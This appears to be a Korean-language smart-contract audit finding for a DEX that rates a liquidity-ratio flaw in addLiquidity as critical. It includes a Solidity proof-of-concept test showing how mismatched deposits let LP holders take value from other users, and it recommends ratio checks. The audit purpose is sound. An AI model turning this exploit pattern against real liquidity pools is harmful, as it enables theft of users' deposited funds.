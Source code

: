 mint를 통해 다른 사람이 입금한 토큰을 탈취할 수 있다.


### Upsiders..

### 파급력
| <span style="color:Brown"> Critical</span>  
### 설명 (exploit only)
```javascript
function test_exploit() external {
    uint fx = 5000 ether;
    uint fy = 10 ether;
    console.log("first fx",fx / 1e18);
    console.log("first fy",fy / 1e18);
    uint firstLPReturn = dex.addLiquidity(fx, fy, 0);
    emit log_named_uint("firstLPReturn", firstLPReturn / 1e18);
    fx = 100000 ether;
    fy = 1000 ether;
    console.log("second fx",fx / 1e18);
    console.log("second fy",fy / 1e18);
    uint secondLPReturn = dex.addLiquidity(100000 ether, 1000 ether, 0);
    emit log_named_uint("secondLPReturn", secondLPReturn / 1e18);
    (uint tx, uint ty) = dex.removeLiquidity(secondLPReturn, 0, 0);
    console.log("second user");
    console.log(tx / 1e18);
    console.log(ty / 1e18);
    console.log("first user");
    ( tx,  ty) = dex.removeLiquidity(firstLPReturn, 0, 0);
    console.log(tx / 1e18);
    console.log(ty / 1e18);
}
```
대 다수의 업사이더에게 발생하는 유동성 풀 비율 확인을 하지 못해 발생하는 문제점. 다른 사용자가 손해를 보거나 
초기 사용자가 유동성 풀의 비율을 정하기 때문에 유동성 확인을 해주지 않으면 잘못된 lp token 발급을 통해 유동성 풀에서 제거했을 때 다른 사용자가 손해를 볼 수 있다.  
유동성 풀에 토큰을 추가할 시, 유동성 비율을 확인해서 lp token을 발급하고 유동성 입금 시 과도하게 비율이 망가진다면 유동성 입금 비율을 생각하여 금액을 조정해야 한다.
